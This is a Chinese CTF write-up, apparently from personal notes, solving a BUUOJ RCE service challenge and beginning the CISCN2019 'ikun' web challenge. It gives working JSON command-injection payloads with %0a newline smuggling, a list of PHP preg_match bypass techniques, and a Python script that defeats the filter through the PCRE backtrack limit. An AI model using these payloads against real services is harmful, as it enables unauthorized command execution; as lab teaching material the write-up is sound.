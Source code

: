 这里的preg_match()进行正则匹配只会匹配第一行，可以利用换行符`%0a`来绕过
那就可以构建payload：`{%0a"cmd":"ls /home/rceservice/jail"%0a}`

可以看到当前环境变量里只有一个ls命令，可以调用全局环境变量/bin下的命令来拿flag![](https://i.loli.net/2021/07/25/vltQ8hEr4FnOjsV.png)

> linux下命令位置：
> /bin、/usr/bin（全局用户可用）
> /sbin、/usr/sbin（root用户可用）

payload：

```json
{%0a"cmd":"ls /home/rceservice"%0a}
{%0a"cmd":"/bin/cat /home/rceservice/flag"%0a}
```

![](https://i.loli.net/2021/07/25/3av5BGs7wJSPgju.png)

![](https://s2.loli.net/2022/03/09/2Zfxm3Cj1qFgQPI.png)

#### preg_match()绕过

1. 数组绕过：因为preg_match只能处理字符串，传入数组将返回false

2. 换行符%0a绕过：如上形如`preg_match("/^.*flag.*$/",$cmd)`，因为^和$匹配一行的头和尾，所以可以用%0a绕过：`%0acat flag`

3. 利用PCRE回溯次数限制绕过 就是当正则匹配回溯次数超过上限时将返回false
   具体看p神这篇：[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

   本题也可以使用此方法：

   ```python
   import requests
   payload = '{"cmd":"/bin/cat /home/rceservice/flag ","hhh":"' + "a"*(1000000) + '"}'
   r = requests.post("http://e24e97dc-9c1c-4529-91a3-5af3f7431947.node4.buuoj.cn/", data={"cmd": payload})
   print(r.text)
   ```

   ![](https://i.loli.net/2021/07/25/tma4AYPjgGdW1XS.png)



## 2021.7.27

### [CISCN2019 华北赛区 Day1 Web2]ikun

1. 要买到 LV6,右键查看一下图片，命名就是lv1-6.png；在url中控制翻页?page=1![](https://i.loli.net/2021/07/27/X5Tm4kQcDYSFfGL.png)
2. 跑一下脚本找到所在页数就可以：跑了一下有500页，找到在181页但是钱不够

```python
import requests
url = 'http://26f50d0e-8a80-4590-aa3b-ab7b3bd5f9b5.node4.buuoj.cn/shop?page='
for i in range(1, 500):
    r = requests.get(url+str(i))
    if 'lv6.png' in r.text:
        print(i)
        break
```
